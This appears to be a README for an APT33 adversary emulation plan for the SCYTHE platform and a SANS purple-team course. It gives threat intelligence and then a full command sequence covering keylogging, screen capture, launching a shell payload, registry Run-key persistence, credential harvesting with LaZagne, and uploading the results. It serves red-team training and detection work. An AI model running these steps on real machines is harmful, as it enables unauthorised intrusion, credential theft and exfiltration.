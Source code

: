 # APT33 Adversary Emulation
APT33, HOLMIUM, Elfin

## Executive Summary
Multiple campaigns emulating APT33 based on this Threat Thursday post: https://www.scythe.io/library/threatthursday-apt33
An additional campaign for SANS SEC699: Purple Team Tactics - Adversary Emulation for Breach Prevention & Detection (https://www.sans.org/cyber-security-courses/purple-team-tactics-adversary-emulation/) is also provided. SANS SEC699 has multiple labs teaching students how to build and run adversary emulation plans. 

## Cyber Threat Intelligence
APT33 is a suspected Iranian threat group that has carried out operations since at least 2013. The group has targeted organizations across multiple industries in the United States, Saudi Arabia, and South Korea, with a particular interest in the aviation and energy sectors. 

### Targets
The group has targeted organizations across multiple industries in the United States, Saudi Arabia, and South Korea, with a particular interest in the aviation and energy sectors. 

### Objectives
Establishing persistent access to partners and suppliers of targets. Mounting supply chain attacks.

### Capabalities
Unmanaged PowerShell

## Attack - SEC699 Emulation Plan
This is a multi campaign threat that requires the following steps to be done first:
- Create a new campaign called Shell. It does not need to have automation.
- Download the 64-bit EXE for that campaign as Shell.exe
- 7zip or WinRAR it with password: BearsBeetsBattleStarGalactica
- Upload Shell.zip to VFS:/shared/threats/APT33/

### Automated Emulation
To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/APT33
4. Create a new campaign
5. Import from Existing Threat: APT33_SEC699
6. Launch Campaign

Note that different TTPs will be performed based privilege of the SCYTHE client.

### Manual Emulation
Start a campaign and perform the following steps from a shell:
```
Start (with https, loader, and controller)
loader --load keylogger
keylogger --start
loader --load printscr
printscr --window Desktop
loader --load clipboard
clipboard
loader --load sysinfo
sysinfo
loader --load processes
processes
loader --load services
services --all
loader --load arp
arp
loader --load upsh
upsh --cmd Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
upsh --cmd Get-DnsClientServerAddress
STEP = FROM SEC699
upsh --cmd mkdir -Force $env:userprofile\Desktop\APT33
loader --load downloader
downloader --src VFS:/shared/threats/APT33/Shell.zip --dest %USERPROFILE%\Desktop\APT33\Shell.zip
downloader --src VFS:/shared/threats/APT33/WinRAR.exe --dest %USERPROFILE%\Desktop\APT33\WinRAR.exe
upsh --cmd cd $env:userprofile\Desktop\APT33 ; .\WinRAR.exe x -ibck -pBearsBeetsBattleStarGalactica .\Shell.zip
upsh --cmd cd $env:userprofile\Desktop\APT33 ; Start-Process Shell.exe
controller --integrity
If step 25 does not contain "High" goto step 36
upsh --cmd cp $env:userprofile\Desktop\APT33\Shell.exe C:\Shell.exe
upsh --cmd Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name apt33 -Value C:\Shell.exe
upsh --cmd Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Run -Name apt33
downloader --src VFS:/shared/threats/APT33/lazagne.exe --dest %USERPROFILE%\Desktop\APT33\lazagne.exe
upsh --cmd cd $env:userprofile\Desktop\APT33 ; .\lazagne.exe all | Out-File lazagne_results.txt
delay --time 60
upsh --cmd Compress-Archive -Path $env:userprofile\Desktop\APT33\lazagne_results.txt -CompressionLevel Optimal -Destination $env:userprofile\Desktop\APT33\results.zip
loader --load uploader
uploader --remotepath %USERPROFILE%\Desktop\APT33\results.zip
keylogger --current
STEP = CLEANUP
delay --time 3600
keylogger --current
keylogger --stop
upsh --cmd Stop-Process -Name Shell
upsh --cmd cd $env:userprofile\Desktop\ ; Remove-Item APT33 -Force -Recurse
If step 25 does not contain "High" goto step 46
upsh --cmd Remove-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Run\ -name apt33
upsh --cmd Remove-Item C:\Shell.exe
controller --shutdown
Finish
```

## References
- https://www.scythe.io/library/threatthursday-apt33
- https://attack.mitre.org/groups/G0064/